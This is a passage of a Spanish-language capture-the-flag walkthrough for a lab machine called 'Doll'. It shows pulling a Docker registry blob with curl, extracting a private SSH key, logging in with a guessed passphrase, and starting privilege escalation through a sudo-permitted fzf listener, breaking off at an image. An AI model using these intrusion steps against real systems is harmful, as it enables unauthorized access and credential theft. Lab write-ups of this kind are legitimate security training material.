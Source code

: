 ```php
curl http://192.168.0.104:1007/v2/dolly/blobs/sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017 --output blob1.tar
... [los 4]
```

# Acceso

* Descomprimo el tar `tar -xf blob1.tar` y obtengo una estructura en donde puedo tener una `id_rsa`
> Solo uno tiene información interesante

```php
80-Doll/home/bela/.ssh
```
* Lo preparo y accedo

```php
chmod 600 id_rsa
ssh -i id_rsa bela@192.168.0.104
```

* Pide la *passphrase* pero tengo una candidata: `devilcollectsit` 😃 y funciona. Capturo bandera

```php
juHD----------
```
  

# Elevación a Root

* Ejecuto un `sudo -l`  y obtengo

```php
User bela may run the following commands on doll:
    (ALL) NOPASSWD: /usr/bin/fzf --listen\=1337
```
* Es un fuzzer de ficheros [https://github.com/junegunn/fzf]. Si me situo en el raíz y ejecuto `fzf`, primero me hará un reconocimiento de todos los ficheros. Desde ahí puedo pedir que me busque algún fichero y lo hará muy rápido. Marcándome la ruta. En este caso lo puedo ejecutar como `root` para ganar acceso, de alguna manera, y utilizando un parámetro que escucha en un puerto, el 1337. Sin embargo, este puerto NO está abierto en la máquina a nivel de sistema, por lo que no es accesible desde fuera.
* Como usuario *bela*, no puedo listar el contenido, ni leer por supuesto ningún fichero, del directorio `/root`. Sin embargo, con *fzf*, si que puedo buscar y listar dentro de su directorio porque lo puedo ejecutar como *root*

```php
sudo /usr/bin/fzf --listen\=1337
```
![web](./80-1.png)
